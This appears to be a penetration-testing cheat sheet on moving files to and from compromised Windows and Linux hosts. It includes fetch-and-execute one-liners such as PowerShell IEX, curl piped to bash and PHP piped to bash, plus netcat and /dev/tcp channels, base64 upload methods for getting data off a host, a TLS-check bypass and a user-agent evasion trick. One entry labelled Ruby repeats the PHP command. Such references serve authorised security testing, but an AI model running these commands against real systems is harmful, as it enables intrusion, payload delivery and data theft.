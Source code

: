 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Destination Machine: Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

**Destination Machine: Default**  
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
```

**Destination Machine: Pipeline input**  
```powershell
(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

**Destination Machine: Default**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <OUTPUT FILE>
```

**Destination Machine: ByPass Internet Explorer Error**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -UseBasicParsing | IEX
```

**Destination Machine: ByPass SSL/TLS Error**  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Default</h4></summary>  

**Source Machine: Create a temporary SMB Share on Linux and place your target file in it** 

```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Destination Machine: Download the files**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
```

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Using credentials</h4></summary>  

**Source Machine: Create the SMB Server on Linux**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```

**Destination Machine: Download the files**  

**Mount the share**
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```

**Download the file**
```cmd
copy n:\<FILE>
```

**Unmount the share**
```cmd
net use n: /delete /y
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

**Source Machine: Setting up a Python3 FTP Server on Linux**
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Destination Machine: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

**Source Machine: Encode File Using PowerShell** 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

**Destination Machine: Decode Base64 String on Linux**
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

**Source Machine: Installing a Configured WebServer with Upload on Linux**
```bash
pip3 install uploadserver
python3 -m uploadserver
```

**Destination Machine: PowerShell Script to Upload a File to Python Upload Server**
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

**Source Machine: We use Netcat to listen in on a port we specify and send the file as a POST request.**
```bash
nc -lvnp <PORT>
```

**Destination Machine: PowerShell Script to Upload a File to Python Upload Server**
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```

**Source Machine: We copy the output and use the base64 decode function to convert the base64 string into a file.**
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

**Source Machine: Installing WebDav Python modules on Linux**
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```

**Destination Machine: Uploading Files using SMB on Windows**
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Start our FTP Server on Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Destination Machine: Upload the file on Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```

Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

**Destination Machine: Once in FTP...**
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUT FILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget http://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- http://<IP>:<PORT>/<FILE> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -O http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -O https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -O http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web Upload</h3></summary>

**Source Machine: Start Web Server**  
```bash
sudo python3 -m pip install --user uploadserver
```

**Source Machine: Create a Self-Signed Certificate**  
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Source Machine: Prepare the files**  
```bash
mkdir https && cd https
mv ~/<FILE> .
```

> **_NOTE:_**  The webserver should not host the certificate. Create a new directory to host the file for the webserver.

**Source Machine: Start Web Server**  
```bash
sudo python3 -m uploadserver --server-certificate ~/server.pem 443
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:/remote/path/
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

<details>
<summary><h1>💻 Code</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```

**Python 2**
```python
python2.7 -c 'import urllib;urllib.urlretrieve ("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PHP</h3></summary>

**PHP Download with File_get_contents()**
```php
php -r '$file = file_get_contents("http://<IP>:<PORT>/<FILE>"); file_put_contents("<OUTPUT FILE>",$file);'
```  
  
**PHP Download with Fopen()**
```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<IP>:<PORT>/<FILE>", "rb"); $flocal = fopen("<OUTPUT FILE>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```    

**PHP Download a File and Pipe it to Bash**
```php
php -r '$lines = @file("http://<IP>:<PORT>/<FILE>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```    


</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ruby</h3></summary>

```ruby
ruby -e 'require "net/http"; File.write("<OUTPUT FILE>", Net::HTTP.get(URI.parse("http://<IP>:<PORT>/<FILE>")))'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Perl</h3></summary>

```perl
perl -e 'use LWP::Simple; getstore("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>");'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>JavaScript</h3></summary>

**Create the script wget.js**
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.js http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>VBScript</h3></summary>

**Create the script wget.vbs**
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.vbs http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/uploads/path/",files={"files":open("<LOCAL FILE>")})'
```
</details>
</details>
</details>

---

<details>
<summary><h1>🧰 Miscellaneous</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>NC</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Netcat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
nc -lvnp 8000 > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
nc -q 0 <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

Instead of listening on the compromised machine, you can listen on your attack host and have the compromised machine connect out. This is useful when inbound connections are blocked by a firewall.

**Destination Machine: Connects to Source Machine and receives file**
```bash
nc <IP> 443 > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo nc -l -p 443 -q 0 < <LOCAL FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ncat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
ncat -l -p 8000 --recv-only > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
ncat --send-only <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

**Destination Machine: Connects to Source Machine and receives file**
```bash
ncat <IP> 443 --recv-only > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo ncat -l -p 443 --send-only < <LOCAL FILE>
```  

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Bash /dev/tcp</h3></summary>

If Netcat or Ncat are not available, Bash can use the pseudo-device `/dev/tcp/host/port` for file transfers.

**Destination Machine: Receive file using /dev/tcp**
```bash
cat < /dev/tcp/<IP>/443 > <OUTPUT FILE>
```

> **Note:** This method can also be used to transfer files from the compromised host to your Source Machine by reversing the direction of the connection.

</details>
</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h1>RDP</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Clipboard</h3></summary>

You can transfer files between your local machine and a remote Windows host using the RDP clipboard (copy-paste) feature. This is supported by most RDP clients if clipboard redirection is enabled.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Ensure "Clipboard" is checked.
4. Connect to the remote host.
5. Copy files on your local machine and paste them into the remote desktop (or vice versa).

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Shared Drives</h3></summary>

You can map a local drive to the remote session, making it accessible from the remote host.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Click "More..." under "Local devices and resources".
4. Check the drives you want to share.
5. Connect to the remote host.
6. The shared drive will appear in "This PC" or "My Computer" on the remote desktop, allowing you to copy files between systems.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via xfreerdp (Linux)</h3></summary>

If you are using Linux, you can use `xfreerdp` to enable clipboard and drive redirection.

**Clipboard (copy-paste):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard
```

**Share a local folder (e.g., /tmp/share):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard /drive:share,/tmp/share
```
The shared folder will appear as a drive on the remote Windows session.

</details>
</details>
</details>

---

<details>
<summary><h1>🔒 Protected File Transfers</h1></summary>

> **Note:** Unless specifically requested by a client, we do not recommend exfiltrating data such as Personally Identifiable Information (PII), financial data (i.e., credit card numbers), trade secrets, etc., from a client environment. Instead, if attempting to test Data Loss Prevention (DLP) controls/egress filtering protections, create a file with dummy data that mimics the data that the client is trying to protect.

> **Note:** Remember to use a strong and unique password to avoid brute-force cracking attacks should an unauthorized party obtain the file.

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Windows</h2></summary>

Many different methods can be used to encrypt files and information on Windows systems. One of the simplest methods is the `Invoke-AESEncryption.ps1` PowerShell script. This script is small and provides encryption of files and strings.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Invoke-AESEncryption.ps1</h3></summary>

```powershell
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Import Module Invoke-AESEncryption.ps1</h3></summary>

```powershell
Import-Module .\Invoke-AESEncryption.ps1 
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Encryption Examples</h3></summary>

Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Text "<STRING>" 
```

Decrypts the Base64 encoded string and outputs plain text.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Text "<BASE64STRING>" 
```

Encrypts the file and outputs an encrypted file ".aes".
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Path <FILE>
```

Decrypts the ".aes" file and outputs an decrypted file.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Path <AES FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Linux</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>openssl</h3></summary>

Encrypting file  

```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in <FILE> -out <ENCRYPTED FILE>
```

Decrypting file   

```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <ENCRYPTED FILE> -out <FILE>                    
```

</details>
</details>
</details>

---

<details>
<summary><h1>👻 Evading Detection</h1></summary>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>Changing User Agent</h2></summary>

**Listing out User Agents**

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Request with Chrome User Agent**
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://<IP>/<FILE> -UserAgent $UserAgent -OutFile "C:\Users\Public\<OUTPUT FILE>"
```

</details>
</details>

---